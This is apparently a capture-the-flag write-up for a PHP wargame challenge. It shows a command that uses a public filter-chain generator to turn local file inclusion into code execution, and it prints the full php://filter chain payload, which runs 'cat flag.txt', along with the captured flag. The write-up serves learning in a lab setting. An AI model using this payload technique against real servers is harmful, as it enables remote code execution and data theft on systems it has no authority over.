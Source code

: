 ```yaml
---
layout: default
title: old-25 RevengE
---
```


# Webhacking old-25 RevengE Solution

Here we face the problem that `flag` is inside `flag.txt`.

I googled about this problem, and found this interesting article: [php wrapper && LFI-to-RCE](https://medium.com/@sundaeGAN/php-wrapper-and-lfi2rce-81c536ef7a06)

So, I installed this repo [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator), and then run this command:
```bash
python php_filter_chain_generator.py --chain "<?php echo system('cat flag.txt') ?>"
```

Now, all left is to pick the payload:
> ```
> php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
> ```

And get the flag!

![FLAG](./images/old-25-RevengE.png)

**Flag:** ***`FLAG{I_Really_W@nt_to_Stay_At_Your_House}`*** 

